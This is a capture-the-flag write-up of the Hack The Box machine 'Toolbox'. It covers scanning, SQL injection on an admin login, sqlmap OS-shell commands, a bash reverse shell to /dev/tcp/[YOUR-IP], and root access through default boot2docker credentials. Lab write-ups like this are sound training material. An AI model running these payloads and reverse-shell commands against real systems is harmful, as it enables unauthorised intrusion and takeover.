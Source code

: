 ```yaml
---
title: Toolbox
date: 2023-01-04 13:30:03 -5000
categories: [HTB,Easy,Windows]
tags: [Web,Network,Misconfiguration,Default Credentials,Weak Authentication,SQL Injection,Protocols]
---
```

# Toolbox (HTB Easy)
![image description](/Assets/Pictures/Toolbox/Toolbox.png)

# 🔎 Intell/Recon

## Intellingence Gathering 🕵🏾

Here we kick off our **nmap** scan in order to see which technology is being run on the server

Here is the results of our different scans

First we look for open ports

`nmap -p- -vv --min-rate 5000 --reason -oN ./Nmap/initial.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (4).png" alt=""><figcaption><p><em>Open ports</em></p></figcaption></figure>

We can now check the service Version in order to gatherr more information

`nmap -sV -p- -vv --min-rate 5000 -oN ./services-scripts.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (1).png" alt=""><figcaption><p><em>Services Enumeration</em></p></figcaption></figure>

## Enumeration

### FTP

Let's start with the low hanging fruit as _@thecybermentor_ always thought us. For this system here. It make sense to start with FTP on port 21. \
We do not have credentials so we will get it with the anonymous login

<figure><img src="/Assets/Pictures/Toolbox/image (8).png" alt=""><figcaption><p><em>FTP session</em></p></figcaption></figure>

This file is too heavy, for me to download. I will keep that in mind that the system has a docker-toolbox.exe file. Which suggest that the system must have docker installed in it. There is sadly nothing more to see here

### HTTPS

Now let's visit the webpage at `https://10.10.10.236/`

<figure><img src="/Assets/Pictures/Toolbox/image (12).png" alt=""><figcaption><p><em>the Website</em></p></figcaption></figure>

As we can see it's more of a static webpage. I checked the source code and ran some directory busting but nothing really juicy is coming out. Then I needed to check for the presence of Virtual Hosts (VHOST) on the target. The are two ways to do it. First, I check with the scripts of nmap cause it leaks sometimes. I did not need to run any directory busting to find the vhost it was there while getting the nmap script

`nmap -sVC -p443 -vv -T5 -oN services-HTTPS.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image.png" alt=""><figcaption><p><em>Nmap service Version &#x26; Scripts</em></p></figcaption></figure>

We found our VHOST which is _**admin.megalogistic.com**_** ** and we also found a username which is _'admin'_

# 👣 Foothold

We have the admin subdomain and we know the username to access the admin panel.

for that let's add the new subdomain to our hosts file with the following:&#x20;

`echo "10.10.10.236    admin.megalogistics.com" | sudo tee -a /etc/hosts`

<figure><img src="/Assets/Pictures/Toolbox/image (10).png" alt=""><figcaption><p><em>login panel of admin.megalogistic.com</em></p></figcaption></figure>

I tried the usual admin:admin but no success. Since it's login form next thing would be to fire burp and see what's going on. But before that, let's try some SQL injection payloads to see what's going on here. I tried with the login = admin' or 1=1. There was an interesting error message suggesting that we have an sqlinjection vulnerability here.

Here is the error message, I got&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (13).png" alt=""><figcaption><p><em>Error from login Panel</em></p></figcaption></figure>

From the error we can literally see the SQL query that helps the user to log in. So from Burpsuite, we will get the POST request and use SQLMap in order to exploit this vulnerability

# 📚 SQLMap

The command was simple. I had to copy the POST request from Burpsuite into a file and then use it to test and see what we can get. I tried first to run a system command in order to see that it's vulnerable\
`sqlmap -r request.txt --batch --force-ssl  --os-cmd whoami`` `_``_&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (6).png" alt=""><figcaption><p><em>SQLMap results</em></p></figcaption></figure>

Since we are able to see the user on the system, we can get a reverse shell as well.

With the following:

`sqlmap -r request.txt --batch --force-ssl   --os-shell`

<figure><img src="/Assets/Pictures/Toolbox/image (7).png" alt=""><figcaption><p><em>SQLMap os-shell</em></p></figcaption></figure>

The next thing that needs to be done is to get a stable reverse-shell since this one can not be used for enumeration. In order to do so we will need to have our listener set with _nc -nvlp 9090_ on our terminal and the following to get our rever-shell.&#x20;

`bash -c "bash -i >& /dev/tcp/[YOUR-IP]/9090 0>&1"`

<figure><img src="/Assets/Pictures/Toolbox/image (2).png" alt=""><figcaption></figcaption></figure>

# 🏴☠ User Flag

Since the user in the system is _postgres_ we need to navigate to that directory in order to get the flag

<figure><img src="/Assets/Pictures/Toolbox/image (11).png" alt=""><figcaption><p><em>User flag</em></p></figcaption></figure>

After getting the, I spent time enumerating the box. Found the real I.P and the hostname. Which is not similar to the one we are going after. We are suppose to be attacking a windows machine but seems like we need to pivot to the target

<figure><img src="/Assets/Pictures/Toolbox/image(14).png" alt=""><figcaption><p><em>System Enumeration</em></p></figcaption></figure>

After the enumeration and looking at the info i gathered. I remember I have found a docker file in the FTP server. After checking on the documentation, I can ssh to the docker

# 🏁 Privesc

Now that we know we can ssh to the docker container. I could not find any credentials on the system. A little search lead me to this [Github Page](https://github.com/boot2docker/boot2docker#ssh-into-vm). In order to understand more on what is happening and see what are the default credentials. __&#x20;

using ssh, I was able to get the docker instance.

_`ssh docker@172.17.0.1`_

_We used 172.17.0.1 since the other box where we got our foothold had an address of 172.17.0.2 which in turn suggest that the docker machine should be at 172.17.0.1_

<figure><img src="/Assets/Pictures/Toolbox/image (5).png" alt=""><figcaption><p><em>Boom ! docker admin user</em></p></figcaption></figure>

Now that we are in the container, we can run some commands to see how to privesc. In order to do that we will need to run some OS commands in order to enumerate the system. turns out,&#x20;

_`sudo -l`_ was enough for us, and running _`sudo su`_ gives the root shell

<figure><img src="/Assets/Pictures/Toolbox/image (9).png" alt=""><figcaption><p><em>Windows File System</em></p></figcaption></figure>

Keep in mind it's a windows machine so the path should be same as the traditional. Which is

_C:\Users\Administrator\\_ the flag should be sitting somewhere in the admin directory.\
\
Thanks for reading. This is my first write-up. Hope this was helpful.

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="1ntell0" data-description="Support me on Buy me a coffee!" data-message="" data-color="#40DCA5" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

### Happy Hacking !